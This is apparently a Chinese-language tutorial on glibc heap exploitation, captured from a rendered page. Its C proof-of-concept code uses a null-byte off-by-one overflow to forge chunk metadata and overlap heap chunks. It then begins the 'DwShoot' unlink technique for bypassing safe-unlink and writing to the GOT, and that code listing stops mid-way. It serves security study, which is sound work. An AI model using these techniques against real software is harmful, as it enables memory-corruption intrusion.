 ```c
        printf("x is at 0x%x, fast is at 0x%x, A is at 0x%x, B is at 0x%x, C is at 0x%x\n", x, fast, A, B, C);
        //x|fast|A|B|C
        //why fast is needed? 如果没有fast这个堆块，则释放x时，为了检测相邻的下一个堆块(A)是否释放，会去验证B头部的pre_size和pre_inuse，由于B的头部已经被篡改，故会出错。
        //
        /* A has a null byte offset vul.
         * A overflow to fast
         * change the pre_inuse bit
        */
        A[0xFc] = 0x00;
        //change the pre_size of B (in A's own memory)
        A[0xF8] = 0x10;
        A[0xF9] = 0x02;
        A[0xFa] = 0x00;
        A[0xFb] = 0x00;

        printf("before trigger vul, A: %s\n", A);
        printf("before trigger vul, fast: %s\n", fast);

        free(x);//aovid the safe unlinking when merge from x->B
        free(B);//merge from x to B . Then overlap fast and A
        char *new = malloc(0x150 - 8);
        memset(new,'w',0x150 - 8);
        printf("new is at 0x%x\n", new);
        printf("after trigger vul, A: %s\n", A);
        printf("after trigger vul, fast: %s\n", fast);
}
```
在堆块A中发生了null byte溢出，通过修改在A堆块内部的pre_size字段，使其长度为x + fast + A的长度之和。接着借助null byte溢出，修改了B堆块头部的第一个字节，把pre_inuse字段修改为0。这使libc错误的认为堆块B的前一个堆块处于空闲状态。

![null-byte](http://image.3001.net/images/20151229/1451369429576.png!small)

这时，如果释放堆块B，根据上边堆块释放过程章节所述，libc会首先根据pre_inuse判断相邻的前一个堆块是否处于释放状态，如果处于释放状态，则根据pre_size字段找到前一个堆块的头部，通过我们的前面一个步骤的操作，这里会找到堆块x的头部，并接着通过safe unlink操作把堆块x从freelist中卸下。为了safe unlink不会出错，比较方便的方法是让x处于空闲状态。故我们应该在释放堆块B之前释放x，这样堆块x到堆块B的整个空间就都被释放掉了。

值得注意的是，堆块x和堆块B之间必须间隔两个堆块。假如没有堆块fast，则我们在释放堆块x时，libc需要知道x相邻的后一个堆块A是否处于空闲状态，而获取这个信息是通过A的size字段找到堆块B，再根据堆块B的pre_inUse位来判断的。而上一步的操作已经使堆块B的pre_inuse字段为0了。这样libc就会以为堆块A处于空闲状态，而对A进行unlink操作而导致出错。（当然，如果释放堆块x在null byte溢出前发生则没有这个问题了）

![null-byte](http://image.3001.net/images/20151229/1451369429633.png!small)

#### 1.2 DwShoot
DwShoot修改被释放的heap的头部数据，pre_size和size，使得size的pre_inuse=0，从而向前融合，导致unlink()操作执行，达到DwShoot的目的。由于safe_unlink的检测，要构造fake_head的数据，使得它的fd和bc都指向某个内存ptr，且*ptr=to_free_p，从而绕过safe的检测，达到写数据的目的。但是如何控制写数据的地址为GOT表呢？
```
#include <stdlib.h>
long gl[0x40];
void main()
{
	//set global var
	memset(gl,'i',0x3F);
	char * A, * B, * C, * new;
	A = malloc(0x100 - 8); //
	memset(A,'a',0x100 - 8);
	B = malloc(0x100 - 8); //
	memset(B,'b',0x100 - 8);
	C = malloc(0x200 - 8); // for stable
	memset(C,'c',0x200 - 8);

	//pre_size,pre_inuse bit must be 1
```